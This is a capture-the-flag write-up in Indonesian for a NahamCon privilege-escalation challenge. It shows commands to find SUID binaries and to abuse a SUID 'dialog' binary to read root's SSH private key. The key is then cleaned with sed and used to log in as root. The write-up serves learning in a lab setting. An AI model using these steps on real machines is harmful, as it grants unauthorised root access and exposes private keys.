 # Gossip
#easy #privilegeescalation


Ssshh, don't talk too loud! These conversations and gossip are only for us privileged users ;)  
  
Escalate your privileges and retrieve the flag out of root's home directory.  
  
There is intentionally no `/root/flag.txt` file present.

## Target
- Di sini kita terhubung dengan ssh sebagai user biasa, kemungkinan flag terdapat di root folder.
![](attachments/Pasted%20image%2020220506135315.png)

## Solusi
- Salah satu cara untuk melakukan privilege escalation adalah mencari SUID atau permission 4000 pada Linux.
```sh
find / -type f -perm -4000 2>/dev/null
```
![](attachments/Pasted%20image%2020220506135830.png)

- Terdapat dialog pada gtfobin: https://gtfobins.github.io/#dialoog.
![](attachments/Pasted%20image%2020220506135936.png)

- Coba bermain dengan dialog
```shell
dialog --fselect /root 100 100
```

- Kita tidak bisa membaca getflag, karena adalah binary executable. Namun di sana terdapat `id_rsa` yang bisa digunakan untuk melakukan eskalasi.
![](attachments/Pasted%20image%2020220506141124.png)

- Yups terbaca sebuah kunci untuk melakukan ssh.
![](attachments/Pasted%20image%2020220506141245.png)

- Kita paste id_rsa tersebut, namun file yang dihasilkan sangat kotor. Terdapat banyak sekali spasi dan tanda `|` yang menyebabkan kunci ini tidak bisa dipakai.
![](attachments/Pasted%20image%2020220506141551.png)

- Dengan menggunakan sed, kita bersihkan id_rsa tersebut.
```sh
sed -i 's/│//g'
sed -i 's/^[ /t]*//g'
sed -i 's/[ /t]*$//g'
```

- Hasil setelah dibersihkan dari karakter yang tidak digunakan.
![](attachments/Pasted%20image%2020220506144420.png)

- Dicek apakah id_rsa ini sudah bisa digunakan?
![](attachments/Pasted%20image%2020220506150158.png)

- Sebagai persyaratan untuk konek ke ssh, permission harus sesuai.
```sh
chmod 400 id_rsa
```

- Konek ke ssh menggunakan id_rsa yang sudah dibersihkan.
```sh
ssh -i "id_rsa" -p 31366 root@challenge.nahamcon.com
```

- Get flag!  
![](attachments/Pasted%20image%2020220506150614.png)
